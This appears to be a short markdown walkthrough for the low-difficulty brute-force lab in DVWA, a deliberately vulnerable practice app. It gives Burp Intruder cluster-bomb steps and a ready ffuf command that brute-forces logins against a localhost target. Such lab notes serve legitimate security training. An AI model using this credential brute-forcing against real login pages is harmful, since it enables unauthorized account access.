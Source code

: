 # 🧪 DVWA

## Vulnerabilities

### Bruteforce

#### 🟢 Difficulty: Low

- Enter an invalid username and password in the login form.
- Send the request to intruder in burp.
- Use cluster bomb as attack and choose two wordlist one each for username and password.
- Start attack and wait for 200 response code.

Note: Use FFUF to bruteforce the username and password much faster using a wordlist in commandline.

```
ffuf -w username_wordlist.txt:USERFUZZ -w password_wordlist.txt:PASSFUZZ -u "http://localhost/DVWA/vulnerabilities/brute/?username=USERFUZZ&password=PASSFUZZ&Login=Login" -mr "Welcome" -b "security=low; PHPSESSID=p1l3cdhnalnedjle9fnkb0tda7" -H "Referer: http://localhost/DVWA/vulnerabilities/brute"

```
